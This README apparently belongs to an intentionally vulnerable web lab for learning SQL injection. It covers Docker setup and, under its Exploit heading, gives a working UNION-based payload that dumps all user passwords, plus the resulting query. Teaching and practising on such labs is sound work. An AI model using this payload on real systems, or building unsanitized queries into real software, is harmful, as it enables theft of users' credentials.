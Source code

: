 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injection
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leaking passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- MYSQL_ROOT_PASSWORD `Databse password`
- SQL_HOST=database `Database host, from the API point of view`
- SQL_WAIT=20 `API waiting for that time (in seconds) before connecting to the database`

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

Here is an example of a working payload, esposing all passwords in the table :

```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :

```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```